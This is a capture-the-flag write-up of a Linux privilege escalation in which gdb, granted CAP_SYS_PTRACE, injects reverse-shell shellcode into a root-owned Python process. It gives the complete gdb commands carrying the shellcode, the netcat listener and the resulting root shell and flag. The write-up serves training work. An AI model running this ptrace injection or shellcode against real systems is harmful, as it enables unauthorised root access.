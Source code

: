 ## cap - writeup


## Enumeration
This is privilege escalation challenge, that as the name suggests, involves linux capabilities.
You can search for files that have additional capabilities set with ```getcap```, or for more complex automated enumeration, you can upload the [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script via ```scp```:

```bash
scp -P <port> <linpeas path on your machine> bts-bob@<ip>:/home/bts-bob/linpeas.sh
```

Snippet from linpeas.sh output on target machine: 
```bash
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
══╣ Current shell capabilities
CapInh:  0x0000000000000000=
CapPrm:  0x0000000000000000=
CapEff:	 0x0000000000000000=
CapBnd:  0x00000000a80c25fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
CapAmb:  0x0000000000000000=

══╣ Parent process capabilities
CapInh:	 0x0000000000000000=
CapPrm:	 0x0000000000000000=
CapEff:	 0x0000000000000000=
CapBnd:	 0x00000000a80c25fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
CapAmb:	 0x0000000000000000=


Files with capabilities (limited to 50):
/usr/bin/gdb cap_sys_ptrace=eip

```

As you can see, ```gdb``` has [CAP_SYS_PTRACE](https://man7.org/linux/man-pages/man7/capabilities.7.html) set. That means that it can debug arbitrary processes. We need to find a process that we will hijack with the debugger. Lets see what is running inside our Docker container:

```bash
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 13:50 ?        00:00:00 /bin/bash ./entrypoint.sh
root           7       1  0 13:50 ?        00:00:00 /bin/bash ./challenge_manager.sh
root           8       1  0 13:50 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root          10       8  0 13:51 ?        00:00:00 sshd: bts-bob [priv]
bts-bob          12      10  0 13:51 ?        00:00:00 sshd: bts-bob@pts/0
bts-bob          13      12  0 13:51 pts/0    00:00:00 -bash
root          15       8  0 13:52 ?        00:00:00 sshd: bts-bob [priv]
bts-bob          17      15  0 13:52 ?        00:00:00 sshd: bts-bob@pts/1
bts-bob          18      17  0 13:52 pts/1    00:00:00 -bash
bts-bob          47      13  0 13:54 pts/0    00:00:00 gdb -p 44 -x commands.txt
root         116       7  0 15:01 ?        00:00:00 python ./very_important_script.py
bts-bob         117      18  0 15:01 pts/1    00:00:00 ps -eaf
```
There is a ```python``` process started by ```root```. We will use ```gdb``` to write shellcode at the current instruction pointer, and then resume execution of the process - it will execute our instructions and give us root access.

Lets format our shellcode, so we can pass it as ```gdb``` commands. The shellcode used in this writeup is from [Packet Storm](https://packetstormsecurity.com/files/160996/Linux-x64-Reverse-Shell-Shellcode.html) and python script converting it to gdb commands is adopted from [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace).
I saved the output to the ```commands.txt``` file

```bash
set {long}($rip+0) = 0x58296a9090909090
set {long}($rip+8) = 0x0f995e016a5f026a  
set {long}($rip+16) = 0x01017f68525f5005 
set {long}($rip+24) = 0x026a665c11686601 
set {long}($rip+32) = 0x5a106a5e54582a6a 
set {long}($rip+40) = 0x58216a5e026a050f 
set {long}($rip+48) = 0x6af679ceff48050f 
set {long}($rip+56) = 0x73736150b9495801 
set {long}($rip+64) = 0x5e545141203a6477 
set {long}($rip+72) = 0xc03148050f5a086a 
set {long}($rip+80) = 0xb848050f08c68348 
set {long}($rip+88) = 0x3837363534333231 
set {long}($rip+96) = 0x3b6a1a75af485f56 
set {long}($rip+104) = 0x69622fbb48529958
set {long}($rip+112) = 0x5f545368732f2f6e
set {long}($rip+120) = 0x050f5e54575a5452
```

Before attaching (and this is specific to this shellcode), we have to create a second SSH connection and start the listener for the reverse shell with 

```bash
nc -lvp 4444
```

In the first connection, attach to the python process and execute the commands

```bash
gdb -p 114 -x commands.txt
```

Continue the execution
```bash
GNU gdb (GDB) 14.1
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-alpine-linux-musl".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
Attaching to process 116

warning: opening /proc/PID/mem file for lwp 116.116 failed: Permission denied (13)
Reading symbols from /usr/bin/python3.11...
(No debugging symbols found in /usr/bin/python3.11)

warning: opening /proc/self/mem file failed: Permission denied (13)
Reading symbols from /lib/ld-musl-x86_64.so.1...
Reading symbols from /usr/lib/debug//lib/ld-musl-x86_64.so.1.debug...
0x00007fd1c56e1862 in _dlstart () from /lib/ld-musl-x86_64.so.1
(gdb) c
Continuing.
```

And get the flag :D
```bash
db0c6d1515a8:~$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on localhost 39420
Passwd: 12345678
whoami
root
pwd
/root
cat flag.txt
BtSCTF{gdbussin_fr_fr_no_cap_7843477187}
```